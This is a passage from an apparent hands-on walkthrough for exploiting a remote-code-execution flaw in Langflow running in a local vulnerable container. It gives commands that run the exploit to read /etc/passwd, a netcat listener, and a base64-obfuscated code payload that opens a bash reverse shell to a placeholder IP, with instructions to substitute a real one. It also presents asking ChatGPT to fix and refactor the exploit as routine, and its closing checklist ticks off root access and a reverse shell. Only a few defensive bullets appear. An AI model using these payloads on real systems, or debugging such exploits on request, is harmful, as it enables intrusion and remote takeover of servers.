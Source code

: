 > “Can you help fix this Langflow exploit? Here's the code and response.”

GPT can:

* Escape payloads safely
* Refactor payload logic
* Add error-handling
* Debug missing responses

---

## 🔁 Expanding the Attack

### ✅ Try Other Commands

```bash
uv run python exploit.py http://localhost:7860 "whoami"
uv run python exploit.py http://localhost:7860 "cat /etc/passwd"
```

### ✅ Reverse Shell (Optional)

1. Start a listener:

```bash
nc -lvnp 9001
```

2. Create base64 payload:

```python
payload = {
  "code": "@exec(\"import base64;exec(base64.b64decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS85MDAxIDA+JjE='))\")\ndef foo():\n  pass"
}
```

Replace the base64 with your reverse shell and correct IP.

---

## 🛡️ Defending Against Vibe Hacking

* 🔐 Disable unsafe endpoints in production
* 🧪 Validate code statically, not dynamically
* 🔒 Add auth to all internal endpoints
* 🕵️‍♀️ Monitor open ports and exposed containers

---

## ✅ Final Checklist

| ✅ Task                         | Status      |
| ------------------------------ | ----------- |
| Launch vulnerable container    | ✅           |
| Verify Langflow is running     | ✅           |
| Check README for payload       | ✅           |
| Test PoC via Python or curl    | ✅           |
| Get `uid=0(root)` confirmation | ✅           |
| Use ChatGPT to fix errors      | ✅           |
| Run other commands             | ✅           |
| Try reverse shell              | ✅           |